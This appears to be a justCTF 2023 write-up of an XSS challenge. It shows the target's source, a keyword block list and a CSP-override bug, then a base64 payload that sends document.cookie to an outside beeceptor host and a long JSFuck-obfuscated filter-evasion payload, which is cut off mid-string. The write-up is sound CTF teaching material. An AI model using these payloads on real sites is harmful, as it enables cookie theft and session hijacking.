


---
Category:
  - Web
Difficulty: Easy
Platform: justCTF 2023
Retired: true
Status: 3. Complete
tags:
  - XSS
  - evasion
  - ejs
  - CSP-bypass
  - jsfuck
  - obfuscation
---

>[!quote]
>I have a new security system, it's so safe that I don't even need to hide the source code.

# Setup
- Server: http://xssl.web.jctf.pro/
- Source code: https://s3.cdn.justctf.team/1efc1b98-a3fe-47cb-a9ff-d1bf1e391ffd/web_extra-safe-security-layers_6837b5eff2a15f387f6488f01f31.zip

# Information Gathering

## The application at-a-glance 🔍

Home page:



Reflected `?text` parameter:



## Source code

*app.js*
```js
import express from "express";
import cookieParser from "cookie-parser";
import rateLimit from "express-rate-limit";
import { randomUUID } from "crypto";
import { xss } from "express-xss-sanitizer";
import { report } from "./bot.js";

// Rate limit for report endpoint - 1 request per minute
const limiter = rateLimit({
	windowMs: 60 * 1000,
	max: 1,
	standardHeaders: true,
	legacyHeaders: false,
});

const app = express();
export const adminCookie = randomUUID();

app.set("view engine", "ejs");
app.set("views", "templates/");
app.use(express.static("public"));

// Safety layer 1
// "middleware which sanitizes user input data (in req.body, req.query, req.headers and req.params) to prevent Cross Site Scripting (XSS) attack."
// = XSS impossible ;)
app.use(xss());

const css = "sha256-vLdrwYlWaDndNN9sQ9ZZrxSq93n8/wam7RRrUaZPZuE=";
const commonJs = "sha256-hPqYpiz7JNIo+Pdm+2iyVcEpBmkLbYzZp4wT0VtRo/o=";
const defaultJs = "sha256-PxCHadKfAzMTySbSjFxfuhIk02Azy/H24W0/Yx2wL/8=";
const adminJs = "sha256-5TQWiNNpvAcBZlNow32O2rAcetDLEqM7rl+uvpcnTb8=";

const defaultCSP = `default-src 'none'; img-src 'self'; style-src '${css}'; script-src '${commonJs}' '${defaultJs}'; connect-src 'self';`;

const blacklist = [
	"fetch",
	"eval",
	"alert",
	"prompt",
	"confirm",
	"XMLHttpRequest",
	"request",
	"WebSocket",
	"EventSource",
];

app.use(cookieParser());
app.use(express.json());

app.use((req, res, next) => {
	if (req.query) {
		// Saferty layer 2
		const s = JSON.stringify(req.query).toLowerCase();
		for (const b of blacklist) {
			if (s.includes(b.toLowerCase())) {
				return res.status(403).send("You are not allowed to do that.");
			}
		}

		// Safety layer 3
		for (const c of s) {
			if (c.charCodeAt(0) > 127 || c.charCodeAt(0) < 32) {
				return res.status(403).send("You are not allowed to do that.");
			}
		}
	}

	if (req.cookies?.admin === adminCookie) {
		res.user = {
			isAdmin: true,
			text: "Welcome back :)",
			unmodifiable: {
				background: "admin_background.png",
				CSP: `default-src 'self'; img-src 'self'; style-src '${css}'; script-src '${adminJs}' '${commonJs}';`,
			},
		};
	} else {
		// Safety layer 4
		res.user = {
			text: "Hi! You can modify this text by visiting `?text=Hi`. But I must warn you... you can't have html tags in your text.",
			unmodifiable: {
				background: "background.png",
			},
		};
	}

	if (req.query.text) {
		res.user = { ...res.user, ...req.query };
	}

	// Safety layer 5
	res.set("Content-Security-Policy", res.user.unmodifiable.CSP ?? defaultCSP);
	next();
});

app.get("/", (req, res) => {
	res.render("index", { ...res.user });
});

app.post("/report", limiter, async (req, res) => {
	try {
		if (!req.body.text) {
			throw new Error("Invalid input.");
		}
		if (typeof req.body.text !== "string") {
			throw new Error("Invalid input.");
		}
		await report(req.body.text);
		return res.json({ success: true });
	} catch (err) {
		return res.status(400).json({ success: false });
	}
});

app.listen(3000, () => {
	console.log("Server running on port 3000");
});
```

*index.js*
```html
<html>
    <head>
        <title>MLSA</title>
        <style>
            .background {
                object-fit: cover;
                width: 100%;
                height: 100%;

            }
            
            .userBox {
                position: absolute;
                top: 50%;
                left: 50%;
                transform: translate(-50%, -50%);
                background-color: #fff;
                padding: 20px;
                border-radius: 50px;
                box-shadow: 0 0 10px 0 rgba(0, 0, 0, 0.2);
            }
        </style>
    </head>
    <body id="main">
        <div class="userBox"><%= text ?? '<h1>This shouldn\'t be here...</h1>' %></div>
        <button id="report-button">report as unappropriate</button>
    </body>
    <script>
        // load background...
        main.innerHTML += `
            '>
        `;
        console.log('Loaded!');
    </script>

    <script defer>
        const reportButton = document.getElementById('report-button');
        reportButton.addEventListener('click', () => {
            fetch('/report', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    text: location.search
                })
            })
            .then(res => res.json())
            .then(res => {
                if (res.success) {
                    alert('Reported!');
                } else {
                    alert('Something went wrong!');
                }
            })
            .catch(err => {
                console.error(err);
                alert('Something went wrong!');
            });
        });
    </script>
</html>
```

*bot.js*
```js
import puppeteer from "puppeteer";
import { readFileSync } from "fs";
import { adminCookie } from "./app.js";

const FLAG = readFileSync("./flag.txt", "utf-8").trim();

export const report = async (endpoint) => {
	if (!endpoint.startsWith("?text=")) {
		throw new Error(
			"Invalid endpoint. Make sure to have the 'text' query parameter."
		);
	}

	const browser = await puppeteer.launch({
		headless: "new",
		args: [
			"--disable-gpu",
			"--no-sandbox",
			"--js-flags=--noexpose_wasm,--jitless",
		],
		executablePath: "/usr/bin/chromium-browser",
	});

	const page = await browser.newPage();
	await page.setCookie({
		name: "admin",
		value: adminCookie,
		domain: "localhost",
		path: "/",
		httpOnly: true,
	});

	await page.setCookie({
		name: "flag",
		value: FLAG,
		domain: "localhost",
		path: "/",
	});

	await page.goto(`http://localhost:3000/${endpoint}`);

	await new Promise((resolve) => setTimeout(resolve, 1000));

	await browser.close();
};
```

## Analysis

The challenge adops 5 different protection layers:
1. `import { xss } from "express-xss-sanitizer";`
2. Word-based blacklist:
```js
const blacklist = [
	"fetch",
	"eval",
	"alert",
	"prompt",
	"confirm",
	"XMLHttpRequest",
	"request",
	"WebSocket",
	"EventSource",
];
```
3. Readable characters only: `if (c.charCodeAt(0) > 127 || c.charCodeAt(0) < 32) {`
4. ?
5. CSP `res.set("Content-Security-Policy", res.user.unmodifiable.CSP ?? defaultCSP);`

The challenge uses an EJS template that reflects the content (processed after all the various layers) of `?text=something` inside it:

```html
<div class="userBox"><%= text ?? '<h1>This shouldn\'t be here...</h1>' %></div> 
```

There is a sink in the template to set the background that we can control: 

```html
<script>
	// load background...
	main.innerHTML += `
		'>
	`;
	console.log('Loaded!');
</script>
```


The goal is to **get an XSS** and force the admin to visit the page (via the "report as unappropriated" feature we can pass the admin an arbitrary path to visit)    

We can control both the background sink and the CSP with such a url:
http://127.0.0.1:10001/?text=hi&unmodifiable[CSP]=foo&unmodifiable[background]=%27%20onerror=print();%27

The result is:
```html
HTTP/1.1 200 OK
Content-Security-Policy: foo
...

<div class="userBox">hi</div>

...
<script>
	// load background...
	main.innerHTML += `
		
	`;
	console.log('Loaded!');
</script>
```


# Exploitation

We can bypass both the word-based blacklist and the *readable character only* check using JSFuck and base64. In this way we can use the reflected value as a store-point whose value is executed by the injected XSS.

Not-obfuscated payload:
```js
text=ZmV0Y2goImh0dHBzOi8vbTNzc2FwMC5mcmVlLmJlZWNlcHRvci5jb20vIitkb2N1bWVudC5jb29raWUp&unmodifiable[CSP]=foo&unmodifiable[background]=x'`;p=atob(document.getElementsByClassName("userBox")[0].innerText);eval(p);y=`
```

Obfuscated payload (arbitrary JS code execution):
```http
GET /?text=YWxlcnQoKQ%3d%3d&unmodifiable[CSP]=foo&unmodifiable[background]=%78%27%60%3b%70%3d%61%74%6f%62%28%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%43%6c%61%73%73%4e%61%6d%65%28%22%75%73%65%72%42%6f%78%22%29%5b%30%5d%2e%69%6e%6e%65%72%54%65%78%74%29%3b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%28%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%2b%5b%21%5b%5d%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%2b%28%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%29%29%5b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%2b%5b%5d%29%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%28%2b%5b%5d%29%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%5d%5d%28%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%29%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%29%28%29%28%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%2b%28%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%29%29%5b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%2b%5b%5d%29%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%28%2b%5b%5d%29%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%5d%5d%28%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%29%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%2b%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%5d%2b%28%2b%28%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%2b%5b%2b%21%2b%5b%5d%5d%29%29%5b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%